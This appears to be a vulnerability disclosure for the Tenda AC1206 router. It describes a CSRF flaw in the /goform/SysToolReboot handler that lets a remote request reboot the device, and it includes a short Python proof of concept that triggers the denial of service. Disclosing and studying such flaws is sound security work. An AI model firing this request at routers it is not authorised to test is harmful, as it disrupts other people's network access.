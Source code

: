Affect device: Tenda-AC1206 US_AC1206V1.0RTL_V15.03.06.23_multi_TD01(https://www.tenda.com.cn/download/detail-2766.html)

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SysToolReboot` page which influences the lastest version of Tenda-AC1206 US_AC1206V1.0RTL_V15.03.06.23_multi_TD01 (https://www.tenda.com.cn/download/detail-2766.html)

The vulnerability exists in the file `/bin/httpd` , function **fromSysToolReboot** .

![1](img/1-1.png)

It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

# POC and repetition

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```python
import requests

url = "http://192.168.23.133/goform/SysToolReboot"

r = requests.get(url)

print(r.content)
```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![1](img/1-2.png)

